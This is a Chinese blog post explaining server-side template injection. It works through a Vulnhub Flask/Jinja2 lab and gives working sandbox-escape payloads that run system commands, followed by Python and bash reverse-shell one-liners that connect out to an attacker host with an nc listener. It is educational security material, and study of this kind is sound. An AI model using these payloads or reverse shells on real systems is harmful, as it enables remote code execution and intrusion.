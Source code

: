 ```yaml
---
layout: post
title:  "SSTI(模板注入)的攻防战"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 前言

SSTI 全称Server Side Template Injection，服务器模板注入，先上一张图,各位可先看图根据后文加深印象

![图片1.png](https://i.loli.net/2020/02/18/3KxRsYFz4nM81Pi.png)

## SSTI的简单讲解

模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。与此同时，它也扩展了黑客的攻击面。除了常规的 XSS 外，注入到模板中的代码还有可能引发 RCE（远程代码执行）。通常来说，这类问题会在博客，CMS，wiki 中产生。虽然模板引擎会提供沙箱机制，攻击者依然有许多手段绕过它。

和常见Web注入的成因一样，也是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性，所以说 用户的输入永远都是不可信的。

通过模板，Web应用可以把输入转换成特定的HTML文件或者email格式。就拿一个销售软件来说，我们假设它会发送大量的邮件给客户，并在每封邮件前SKE插入问候语，它会通过Twig（一个模板引擎）做如下处理：

```bash
$output = $twig->render( $_GET['custom_email'] , array("first_name" => $user.first_name) );
```

有经验的小伙伴可能会立刻想到xss，但是问题不止如此，此时我们可以尝试使用ssti：假设我们发送如下请求，

```bash
    custom_email={{7*7}} // GET 参数
    49  // $output 结果
```

    还有更神奇的结果：

```bash
    custom_email={{self}} // GET 参数
    Object of class
    __TwigTemplate_7ae62e582f8a35e5ea6cc639800ecf15b96c0d6f78db3538221c1145580ca4a5
    could not be converted to string // 错误
```

我们不难猜到服务器执行了我们传过去的数据。每当服务器用模板引擎解析用户的输入时，这类问题都有可能发生。除了常规的输入外，攻击者还可以通过 LFI触发它。模板注入和 SQL 注入的产生原因有几分相似——都是将未过滤的数据传给引擎解析。

## 实战

Vulnhub的Flask/Jinja2中的服务端模版注入

首先我们看看他的代码：

```php
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
name = request.args.get('name', 'guest')
t = Template("Hello " + name)
return t.render()
if __name__ == "__main__":
app.run()
```

可以看到Template("Hello " +name)，Template()则是用户可控的，我们就可以这么来：

![图片2.png](https://i.loli.net/2020/02/18/HVuZ9v5RSAQjGWs.png)

![图片3.png](https://i.loli.net/2020/02/18/X7ohF6zIaYAxrq2.png)

随手尝试一波xss，这边是没有经过任何处理的 所以有xss很正常

此时写入模板语句:

![图片4.png](https://i.loli.net/2020/02/18/GK3xRF7ifA1Y85U.png)

可以看到也是能成功执行的，那么我们需要怎么利用呢？

我们知道 在python当中 执行系统命令需要import os模块；

然而 想要在模板中直接调用内置模块 os，即需要在模板环境中对其注册

需要在上层的代码里加一句:

```php
t.globals['os'] = os
```

如果没有加这一句，直接使用os中的方法会报错。
那么，如何在未注册 os 模块的情况下在模板中调用 popen() 函数执行系统命令呢？这就要用各种下划线函数了。

且因为python2与python3存在差异 所以这里找到了个通用的payload

```php
for c in ().__class__.__bases__[0].__subclasses__():
    if c.__name__=='_IterationGuard':         c.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

用jinja的语法即为（执行命令使用os.popen('whoami').read()才有执行结果的回显）

```php
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__==\'_IterationGuard\' %}
{{ c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()\") }}
{% endif %}
{% endfor %}
看到别的大神也有使用func_global模块的linecache 我这里也把代码贴出来 其实都是差不多的：
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```

![图片5.png](https://i.loli.net/2020/02/18/HyIEcUkF7VaWhb1.png)

可以看到成功执行了whoami命令 后续的话想反弹shell可以直接用python反弹或者bash...

```python
python -c
'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.80.134",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
'
```

```bash
Bash:
受害机命令
bash -i >& /dev/tcp/x.x.x.x/1234 0>&1

本机命令
nc -lvvvp 1234
```

## 防御

* 尽可能加载静态模板文件
* 不要允许用户控制此类文件或其内容的路径
